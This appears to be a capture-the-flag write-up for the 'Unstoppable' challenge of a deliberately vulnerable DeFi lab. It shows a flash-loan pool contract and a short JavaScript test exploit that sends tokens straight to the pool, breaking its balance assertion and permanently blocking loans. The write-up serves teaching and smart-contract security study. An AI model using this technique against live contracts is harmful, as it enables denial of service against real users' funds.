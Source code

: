 # Challenge #1: Unstoppable

This first challenge is to stop the pool from offering flash loans. Simply, the challenge is to DoS the contract. 

All further call to borrow the token should be blocked. In order to block it the pool must revert on any of the *requires* in the *flashLoan* function. 

Here is the code of the pool's contract:

```
function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance.add(amount);
}

function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);

        damnValuableToken.transfer(msg.sender, borrowAmount);

        IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

There are two important things here to notice:
1. The pool keeps its balance in a local variable *poolBalance*.  
2. The mentioned variable is used in an assert in the *flashLoan* function: `assert(poolBalance == balanceBefore);`

BTW, why would the pool have additional variable to track its balance while it can check its token balance at any moment?

## Exploit

In order to block the pool, we must make the expression `poolBalance == balanceBefore` become *false*. The *balanceBefore* variable is the pool's token balance retrieved using ERC20 *balanceOf* function whenever someone borrows tokens. 

On the other hand, the *poolBalance* variable tracks the same token balance of the pool whenever someone deposits tokens to the pool using *depositToken* function. That is why the comment says the mentioned assertion is ensured by the *depositTokens* function.

If only there was any way to change the pool's token balance without calling the *depositTokens* function...

Oh wait! We can call the *transfer* function directly on the token's contract to bypass the increase of *poolBalance* variable (in *depositTokens* function).

The exploit is quite simple:
```
it('Exploit', async function () {
        /** YOUR EXPLOIT GOES HERE */
        let attackersBalance = await this.token.balanceOf(attacker);
        /* Change the pool's balance with a transfer */
        await this.token.transfer(this.pool.address, attackersBalance, { from: attacker });
});
```

## Lesson learned

Do not assume that the contract's token balance can be changed only with contracts's custom functions. Remember that it is possible to change the token balance of any address by calling the token's function directly.

It is also worth to remember that the balance can be changed using the *selfdestruct* function of other contract.

[<< Back to the README](../README.md)